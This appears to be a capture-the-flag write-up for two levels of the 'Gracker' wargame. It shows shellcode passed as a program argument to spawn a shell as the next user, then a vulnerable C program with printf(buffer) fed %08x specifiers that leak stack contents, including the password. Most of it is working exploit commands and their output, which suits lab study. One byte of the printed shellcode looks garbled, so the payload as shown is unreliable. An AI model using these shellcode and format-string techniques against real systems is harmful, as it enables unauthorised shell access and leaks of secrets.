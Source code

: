 This level featured involving using shellcode, this is easy. Just go find any /bin/bash or /bin/sh scripts from [shell-storm](https://shell-storm.org/shellcode/files/shellcode-606.html). This was mine. Then we can input it into the program as such:

```
level7@gracker:~$ /matrix/level7/level7 `echo "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x1\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"`
Hello user.
You can create a new program in the TRON system that will live in Arjia City:
bash-4.3$ ls
iwashere  recap  story  welcome
bash-4.3$ whoami
level8
```

# Gracker Level 8

```
Let's create our own test binary in /tmp

    level8@gracker:/matrix/level8$ cd /tmp
    level8@gracker:/tmp$ mkdir l8tmp
    level8@gracker:/tmp$ cd l8tmp
    level8@gracker:/tmp/l8tmp$ cp /matrix/level8/level8.c .
    level8@gracker:/tmp/l8tmp$ vim level8.c # modify sourcecode file path
    level8@gracker:/tmp/l8tmp$ cat level8.c
    #include <stdlib.h>
    #include <stdio.h>
    #include <string.h>
    #include <fcntl.h>

    // gcc level8.c -o level8 -m32

    int main() {
        char *pos;
        char buffer[512];
        char password[32];

        int fp = open("pass", O_RDONLY);

        read(fp, password, 32);
        if ((pos=strchr(password, '\n')) != NULL) *pos = '\0';
        password[31] = '\0';

        printf("What is your name?\n");
        fflush(stdout);
        fgets(buffer, sizeof(buffer), stdin);
        if ((pos=strchr(buffer, '\n')) != NULL) *pos = '\0';
        password[511] = '\0';

        printf(buffer);

        if(strcmp(buffer,password)==0) {
            printf("\ncorrect! come in.\n");
        } else{
            printf("\nYou must be an Obj-C programmer. GET OUT OF HERE!\n");
        }
    }
    level8@gracker:/tmp/l8tmp$ echo "1234AAAABCDE" > pass
    level8@gracker:/tmp/l8tmp$ ./level8
    What is your name?
    %08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x
    0000000af7fcec20ffffda40ffffda38f7fdc5f9343332314141414145444342f7fdc500fffffffff7ffd000f7e3537800fd2000
```